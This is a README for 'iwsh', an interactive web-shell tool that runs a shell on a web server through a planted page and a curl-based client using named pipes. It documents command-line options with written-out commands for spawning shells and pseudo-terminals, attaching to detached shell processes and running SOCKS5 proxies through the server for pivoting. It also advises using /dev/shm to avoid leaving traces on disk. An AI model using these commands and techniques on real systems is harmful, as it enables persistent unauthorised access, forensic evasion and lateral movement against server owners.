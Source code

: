 # iwsh (INTERACTIVE WEB SHELL)


##### *The goal of the project is to create a fully interactive shell based on a web server without the need for any additional network connections.*


I was inspired by a situation where I couldn't create any new connections except for web connections over the HTTP protocol.
After spending several days i didn't find works solution. First problem is was create established process, so project create independent process of http requests on server. 

This project communicate over named pipes that create in file system. Interactive shell using two pipes. First pipe for **stdin** default `/tmp/i` that web server write data to from user. Second pipe use for **stdout** and **stderr** defualt `/tmp/o` that web server read data from shell and return to user via Chunked Transfer Encoding that available in `HTTP/1.1`. Streaming data transfer from **stdout** and **stderr** helps reduce the number of requests. I recommend use direcotry `/dev/shm` instead of `/tmp` or other directory that do not leave any fingerprints on disk. `--stream` helps reduce the number of requests to just two. All data will be sent over a TCP connection. Currently only available for Java Servlet. 

The project consists of two files: 1) client is written in bash by use **curl** for communication with web server. 2) page for web server for communicate with client and server-side shell.

**PHP** has some limitation for request chunked, so not easily create two-way streaming for PHP server. I believe that can be created by other client or even better use one page on server with javascript for create full interactive webshell in browser. I don't know very well JavaScript and all of web stack that spend time for create some of this. So I hope someone will be interested in continuing to help develop the project.


https://github.com/NumquamScire/iwsh/assets/147640410/96a49ffc-d5d2-4f03-b40e-49ff8568081f


---

###### Available options in client:
1. Run command in not interactive shell (by default) 
	Example: `./client --url http://localhost/mypage.php` 
2. Run command in interactive shell without tty 
	Example: `./client --url http://localhost/mypage.php -i`
3. Run command in interactive shell with tty. For this option client has several predefined command for spawning pseudo tty: `--stty-python`, `--stty-expect`, `--stty-script`. If you want change path to binary file just add path after flag, for example change path to python: `--stty-python /usr/bin/python3.7` You can use own command for spawning tty. You must provide the command as one argument, so please don't forget `\"` use: `--stty-custom "/custom/path/python2.7 -c \"import pty; pty.spawn('/bin/zsh')\""`
    Example: `./client --url http://localhost/mypage.php -i --stty-raw --stty-python --alias`

   
###### Stty options:
- By default client running in normal mode and read command line by line. In this mode client can't read special keys some of `ctrl+c`, `ctrl+d`, `ctrl+r`, `ctrl+l` and *etc*.
- When you want change **stty option** you don't need push `ctrl+z` after run command: `stty raw -echo; fg` Instead you must use client commands, because client use two different approach for reading input in different modes.
- If you want to run client in **raw mode** you must use: `--stty-raw` or if client running in **normal mode** you can use command to switch from **normal mode** to **raw mode** use: `%:stty_raw`
- When client running in **raw mode** you can switch to **normal mode** use the key combination: `ctrl+alt+s`. To exit the program in **raw mode**, use the key combination `ctrl+alt+q`.


###### Help menu:

- `-h`, `--help`: Display help menu
- `-u`, `--url`: The URL to the file: `--url http://localhost:8080/webshell.php`
- `-curl`, `--curl`: Script communicate with shell by curl. You can add arguments to curl, usage: `--curl '-X POST' -A 'My User-Agent 2.0'`
- `-i`, `--interactive`: Switch to interactive shell.
- `--stty-raw`: Switch stty to raw mode. Switch to normal mode: `ctrl+alt+s`. While normal mode run switch to raw mode write command: `%:stty_raw`
- `--stty-python`: Send command to run python tty mode: `python -c "import pty; pty.spawn('$shell')"`
- `--stty-expect`: Send interactive command to run expect tty mode: 0)`expect` 1)`spawn $shell` 2)`interact`
- `--stty-script`: Send command to run script tty mode: `script -qc /bin/bash /dev/null`
- `--stty-custom`: Send command to run custom tty mode: `--stty-custom "/custom/path/python2.7 -c \"import pty; pty.spawn('/bin/zsh')\""`
- `--alias`: Send command for setup alias and export TERM: `export TERM=xterm-256color; alias ls='ls --color'; alias ll='ls -lsaht --color'`
- `--alias-custom`: Send command to setup custom alias and other command: `--alias-custom "export TERM=screen-256color; alias ls='ls --color'; alias ll='ls -lsaht --color'"`
- `--shell`: Change from default `bash` to any shell for spawning interactive shell and stty: `--shell /usr/sbin/sh`
- `-ish`, `--init-shell`: Change default command for spawning interactive shell: `--init-shell "rm -f /tmp/i /tmp/o; mkfifo /tmp/i /tmp/o; bash -c 'exec 5<>/tmp/i; cat <&5| bash  2>/tmp/o >/tmp/o'"`
- `-fi`, `--fi`: Interactive shell works on named pipes, so change name of stdin pipe: `--fi /dev/shm/some_input_pipe`
- `-fo`, `--fo`: Interactive shell works on named pipes, so change name of stdout, stderr pipe: `--fo /dev/shm/some_output_pipe`
- `-d`, `--default`: Script by default works with no interactive webshell. So flags set default interacte option: `--interactive`, `--stty-raw`, `--stty-python`, `--alias`. If you want change some of option you need provide next option after default options. `-d --stty-script --shell /bin/bash`
- `--attach`: Join a detached running shell process. To join the right shell, you need to use the same pipes that the shell process uses: `--attach --fi /dev/shm/i --fo /dev/shm/o`
- `--stream`: Create request stream. Available for Java Servlet, not working with php: `--stream`
- `--socks5-bash`: Create socks5 server. Connection to destination host via bash. You can set up special path to bash: `--socks5-bash /bin/bash`
- `--socks5-python`: Create socks5 server. Connection to destination host via python. You can set up special path to python: `--socks5-bash /bin/python3`
- `--socks5-path`: Set up path where will save named pipes for each one connection. Default `/dev/shm/`: `--socks5-path /tmp`
- `--socks5-port`: Set up port for socks5 server by default `1080`: `--socks5-port 9050`

To exit in normal mode stty usage: `ctrl+c` or write: `%:exit`. To exit in raw mode stty usage: `ctrl+alt+q`

If you want **create several instance** of client with interactive shells you need use **different pipes** for everyone instance by use: `--fi` and `--fo`
Don't forget that sever-side process will running even client is close. So if you don't want leaving running process on server-side and leaving any files, You have to manually kill process and remove files. 

---

**Acknowledgments:**
A heartfelt thank you! Your support has been invaluable.

**Special Thanks To:**
1. [@justOleh](https://github.com/justOleh)

---

If you'd like to show your appreciation, you can buy me a cup of coffee:

**Bitcoin Wallet:**
[bc1qtnz9s7l35aaappzrdsjdjxpze04ld0x5umk7yh](bitcoin:bc1qtnz9s7l35aaappzrdsjdjxpze04ld0x5umk7yh?message=Buy%20me%20a%20cup%20of%20coffe)

---

For any inquiries or just to say hello, my contact information is below. Feel free to reach out:

**Contact:**
- **Email:** [numquam_scire@proton.me](mailto:numquam_scire@proton.me)
- **XMPP Protocol:** [death_bee@xmpp.is](xmpp:death_bee@xmpp.is)


